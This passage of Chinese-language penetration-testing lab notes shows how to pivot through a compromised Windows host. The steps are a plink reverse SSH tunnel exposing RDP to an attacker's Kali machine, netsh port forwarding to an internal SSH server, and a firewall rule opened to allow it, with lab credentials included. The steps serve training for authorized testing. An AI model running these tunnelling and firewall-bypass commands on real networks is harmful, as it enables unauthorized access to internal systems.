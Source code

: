 ```armasm
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

kali上查看开启端口，并rdp本机9833就是跳板1的3389端口

```armasm
ss -ntplu
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

### 18.4.3 Netsh

kali（192）---win跳板1（192和10）---目标（10）

跳板1上做转发

```armasm
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
管理员运行cmd
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

映射跳板2222端口到目标的22端口，查看跳板2222是否开放及代理列表

```armasm
netstat -anp TCP | find "2222"
netsh interface portproxy show all
```

kali扫描跳板的2222端口

```armasm
sudo nmap -sS 192.168.50.64 -Pn -n -p2222
```

不成功，因为Windows防火墙会阻止kali连接2222端口，防火墙增加一条规则，允许入向连接2222端口

```armasm
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

kali连接目标成功

```armasm
sudo nmap -sS 192.168.50.64 -Pn -n -p2222
ssh database_admin@192.168.50.64 -p2222
```

删除防火墙及代理策略

```armasm
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

更多更新资料（微信公众号：TopRedTeam）
